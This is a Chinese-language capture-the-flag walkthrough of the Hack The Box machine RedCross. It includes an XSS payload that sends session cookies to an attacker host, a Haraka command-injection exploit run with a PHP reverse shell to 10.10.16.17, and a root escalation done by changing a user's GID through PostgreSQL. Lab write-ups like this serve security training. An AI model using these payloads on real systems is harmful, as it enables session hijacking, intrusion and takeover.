



# ✔️ RedCross

## 建立立足点

### 信息收集

* 使用Nmap进行对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA redcross 10.129.9.55 --open
```

<figure><figcaption></figcaption></figure>

* 检查80端口上的内容，发现它重定向到https://intra.redcross.htb/这个地址，将域名添加到/hosts文件中，然后再次访问，获得一个登录页面：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 尝试几个弱口令均失败后，使用dirsearch扫描是否有隐藏文件/目录，没什么收获：

```bash
dirsearch -u  http://10.129.9.55 -x 403,404,400
```

<figure><figcaption></figcaption></figure>

* 使用Wfuzz尝试扫描子域，发现有两个结果：

```bash
wfuzz -c -u https://intra.redcross.htb -H "Host:FUZZ.redcross.htb" -w subdomains-top1million-110000.txt --hc 404 -t 200 --hl
```

<figure><figcaption></figcaption></figure>

* 将以上子域也添加到/hosts文件中，再访问admin这个子域就获得了一个管理登录界面，简单尝试几个弱口令均失败：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 找到的两个登录界面也没有查看到所使用的公开已知的软件信息，因此无法通过常规的搜寻公开已知漏洞进行利用。在当前没有任何有效凭证的情况下，尝试暴力破解无果。决定从头枚举，发现遗漏了对443端口的扫描：

```bash
dirbuster -u https://intra.redcross.htb:443 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -r
```

* 陆续又扫出一些目录和页面：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 花了大量的时间进行扫描，实在是没找到什么有用的东西和凭证，所以决定从已经枚举出的页面进行测试。因为其他几个都是登录页面，所以先从有输入框的contact页面开始进行XSS测试，先寻找XSS注入点。
* 首先简单写个\<script>脚本标签，依次放入不同的输入框中进行POST提交，观察有无返回信息，以及返回信息的具体内容：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 当把\<script>脚本标签放入contact phone or email这个框中时，返回了已发送的提示，说明此时我们已找到了注入点：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 然后开始构建注入语句，先简单测试一下和本机是否通信：

```html
# 在输入框中
<script src="http://10.10.16.17:8888/test"></script>
# 在Kali本机做好监听
nc -lvnp 8888
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 然后构建一个尝试获取有效的会话cookie的语句，当能获取到有效的cookie时，我们就能将该cookie放入自己的浏览器中，绕过原有的密码输入，伪装成该用户进行登录：

<pre class="language-html"><code class="lang-html">nc -lvnp 8888
<strong>&#x3C;script>new Image().src="http://10.10.16.17:8888/test.php?c="+document.cookie;&#x3C;/script>
</strong></code></pre>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### GET SHELL

* 此时已获取到了有效的PHPSESSIONID，并且后面的域是指向admin的，说明是admin这个页面的cookie，去admin页面登录。替换掉原有的PHPSESSIONID，然后刷新页面即可登录成功：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 进入Network Access，发现是一个设置白名单的界面，将自己的IP先添加进去：

<figure><figcaption></figcaption></figure>

* 进入User Management里，添加一个新用户，获得了系统生成的密码，同时还发现了另一个用户tricia：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 尝试用这个有效凭证登录之前的intra页面，登录失败：

<figure><figcaption></figcaption></figure>

* 但是根据Nmap的扫描结果，还有一个SSH服务，利用这个有效凭证登录成功：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 里面并没有flag，但是找到了另外一个新用户：penelope
* 因为已经将自己的IP地址加入了目标系统的白名单，再次扫描开放端口发现多了几个：

```bash
nmap -sC -sV -p- -oA redcross2 10.129.6.250 --open
```

<figure><figcaption></figcaption></figure>

* 尝试匿名登录FTP失败：

<figure><figcaption></figcaption></figure>

* 根据Nmap的输出结果，5432端口上运行了postgresql服务，尝试用默认凭证登录不成功：

<figure><figcaption></figcaption></figure>

* 还剩下一个1025端口，因为该端口上运行的并不是常规的服务，所以可以使用netcat和该端口上的服务进行交互，从而获取到它运行的服务名和版本等信息：

```bash
nc -vvvv 10.129.6.250 1025
```

<figure><figcaption></figcaption></figure>

* 得到服务为：Haraka 2.8.8，然后搜索相关公开漏洞发现有一个远程命令注入：

<figure><figcaption></figcaption></figure>

* 下载搜索到的脚本到本地：

<figure><figcaption></figcaption></figure>

* 查看帮助信息如何使用该脚本，并且查看脚本内容发现默认端口处需要修改为目标的开放端口1025：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 利用该脚本执行反弹shell，此处用到常用的pentestmokey reverse shell中的PHP反弹shell：

<figure><figcaption></figcaption></figure>

```bash
# 注意需要转义符，并在kali本机做好监听
python 41162.py -c "php -r '\$sock=fsockopen(\"10.10.16.17\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'" -t penelope@redcross.htb -m 10.129.6.250
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 常规的枚举检查，没有找到可以利用的点：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 依次检查目标系统上的各个目录，在/var/www/html/admin/pages目录下找到几个php文件，其中actions.php、login.php、users.php里面都包含了大量的可用于连接postgresql的用户凭证：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 使用以上用户凭证连接数据库，该文件中已经包含了table名，直接查询获得之前admin界面的两个用户凭证：

```bash
psql -h 127.0.0.1 -p 5432 -U unixusrmgr -d unix
# 查询表里的用户名和密码
SELECT * FROM passwd_table;
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### ROOT

* 因为系统中的每一个用户都有唯一的UID和GID，当可以滥用sudo配置将任意用户添加进sudo组，就能通过sudo命令执行root权限才能执行的命令，实现提权。查询sudo组的ID为27，将之前新添加进去的用户fiii的GID改为27：

```bash
# 在postgresql中
update passwd_table set gid=27 where uid=2021;
```

<figure><figcaption></figcaption></figure>

* 之前已经由目标系统生成了新用户的凭证，所以直接登录ssh服务，然后切换超级用户即可实现提权：

```bash
ssh fiii@10.129.111.68
sudo su
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


本例完成的并不顺利，对我来说有一些难度。Get Shell阶段当没有任何收获时，多换几个工具扫描试试，但不能一味指望着扫描能扫出来东西，会浪费很多时间。靶场的机器名字有时是关于所使用的应用的漏洞提示，有时还可以是关于攻击手法的提示。权限提升阶段涉及到对目标系统各个文件夹的枚举，并不是因为某第三方软件或者系统有漏洞，而是属于滥用sudo配置可将任意用户添加进sudo组所导致的提权成功。

(本例机器中途重置过，IP地址有变化，但不影响漏洞利用及其实现结果)

